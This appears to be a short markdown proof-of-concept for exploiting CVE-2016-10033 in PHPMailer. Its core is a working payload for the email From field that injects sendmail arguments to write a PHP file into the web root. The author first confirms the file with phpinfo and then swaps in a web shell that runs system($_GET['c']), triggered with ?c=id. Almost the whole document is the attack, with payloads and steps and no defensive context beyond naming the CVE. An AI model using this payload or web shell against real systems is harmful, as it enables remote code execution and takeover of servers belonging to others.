





This using CVE 2016-10033 PHPMailer

This website like that



POC 

In `From` field, input payload to create php file in web server when email sent ~~~~

payload: 
> "attacker\" -oQ/tmp/ -X/var/www/shell4.php root"@email  

on body mail, put it, lets try web server throw phpinfo, I can confirm this php file was created remotely:

```php 
<?php phpinfo(); ?>
```  

Successfuly, lets RCE this machine

 

so, i modified payload  to

```php
<?php system($_GET['c']);?>
```

Message successfully

Webshell



?c=id



Exploit




